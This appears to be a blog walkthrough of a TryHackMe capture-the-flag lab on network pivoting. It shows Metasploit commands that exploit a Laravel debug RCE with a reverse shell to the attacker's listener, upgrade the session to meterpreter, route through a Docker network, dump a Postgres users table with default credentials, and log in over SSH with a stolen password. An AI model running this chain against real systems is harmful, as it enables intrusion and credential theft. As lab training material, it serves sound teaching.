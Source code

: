 ```yaml
---
layout: single
title: "[Day 9] Pivoting Dock the halls "
header:
  teaser: "/assets/images/hacking-teaser.JPG"
---
```


## Docker
When there is a ```/.dockerenv``` in the root directory of the filesystem its a most probably a docker container. 

## Metasploit 
On Kali Metasploit is already installed: ```msfconsole```

Common commands: 

```           
# To search for a module, use the ‘search’ command:
msf6 > search laravel

# Load a module with the ‘use’ command
msf6 > use multi/php/ignition_laravel_debug_rce

# view the information about the module, including the module options, description, CVE details, etc
msf6 exploit(multi/php/ignition_laravel_debug_rce) > info
        
```

Within a module: 

```           
# View the available options to set
show options

# Set the target host and logging
set rhost 10.10.57.242
set verbose true

# Set the payload listening address; this is the IP address of the host running Metasploit
set lhost LISTEN_IP

# show options again
show options

# Run or check the module
check
run

```


Metasploit has its own routing table which allows to rout traffic from your host to a metasploit session. 

### Socks Proxy
You can run a proxy within Metasploit and even on a compromised machine. 

some commands like curl supports using a proxy like this: ```curl --proxy socks4a://localhost:9050 http://MACHINE_IP```
And if the tool doesn't support it, you can use proxychains: ```roxychains -q nmap -n -sT -Pn -p 22,80,443,5432 MACHINE_IP```



### Session
After metasploit exploited a target it opens a session. A session can be upgraded to a meterpreter session.

### Meterpreter 
Is a payload which enables interactive access to a compromised computer. 

## Network pivoting
When you gained a entrypoint into a system you can run network scanning tools like nmap and arp to find additional machines which where not reachable previously.


## Walkthrough

Starting with nmap on the target: ```nmap -T4 -A -Pn 10.10.57.242``` gives us the open port 80 with apache behind it. 
![nmap_start](/assets/images/tryhackme/day9/nmap.PNG)

Seems like we can just open a website on port 80. This gives us the info that laravel is used. 
![laravel](/assets/images/tryhackme/day9/laravel.PNG)

Run Metasploit: ```msfconsole```
Run ```search laravel```
Run ```use exploit/multi/php/ignition_laravel_debug_rce```

![laravel](/assets/images/tryhackme/day9/metasploit.PNG)

Within the module:
Run ```show info```
Run ```check RHOSTS=10.10.57.242 HttpClientTimeout=20```
![laravel](/assets/images/tryhackme/day9/metasploit-Check.PNG)

We need to check our own ip address by running ```ip addr``` in normal console. 
![ip addr](/assets/images/tryhackme/day9/getmyownip.PNG)


within the laravel module, lets run: ```un RHOSTS=10.10.57.242 LHOST=10.18.65.121 HttpClientTimeout=20```
![metasploit run](/assets/images/tryhackme/day9/metasploit-run.PNG)

Lets put the session into background and list all sessions: 
![metasploit background](/assets/images/tryhackme/day9/metasploit-background.PNG)

Now we upgrade the last session to meterpreter session: ```sessions -u -1``` and read an .env file
![metasploit background](/assets/images/tryhackme/day9/meterpreter-getenv.PNG)

we resolve the found webservice into IP address: ```resolve webservice_databse```
This means there is another host on the network and we can pivoting to it. 
![metasploit background](/assets/images/tryhackme/day9/anotherhost.PNG)

We also see that we are in a docker container
![In a docker container](/assets/images/tryhackme/day9/in-a-docker-container.PNG)

Now we add a route on metasploit: ```route add 172.28.101.51/32 -1```
We also add the route for the dockers default ip address to connect resources on its host: ```route add 172.17.0.1/32 -1```

```   
# Dump the schema
use auxiliary/scanner/postgres/postgres_schemadump
run postgres://postgres:postgres@172.28.101.51/postgres

# Select information from a specific table
use auxiliary/admin/postgres/postgres_sql
run postgres://postgres:postgres@172.28.101.51/postgres sql='select * from users'
```        
![Schemadump](/assets/images/tryhackme/day9/schemadump.PNG)
![SQL command](/assets/images/tryhackme/day9/sql-command.PNG)

Now we can run something like this: ```curl --proxy socks4a://localhost:9050 http://172.17.0.1 -v```
The proxy will route this traffic to our target and the target will call its host machine. 

We can now scan the targets host system: ```proxychains -q nmap -n -sT -Pn -p 22,80,443,5432 172.17.0.1```

![nmap target host](/assets/images/tryhackme/day9/nmap-targets-host.PNG)
We see that SSH port is open on the host machine.  

Using the username and password we got from the database: ```run ssh://santa:p4$$w0rd@172.17.0.1```
![nmap target host](/assets/images/tryhackme/day9/ssh-session.PNG)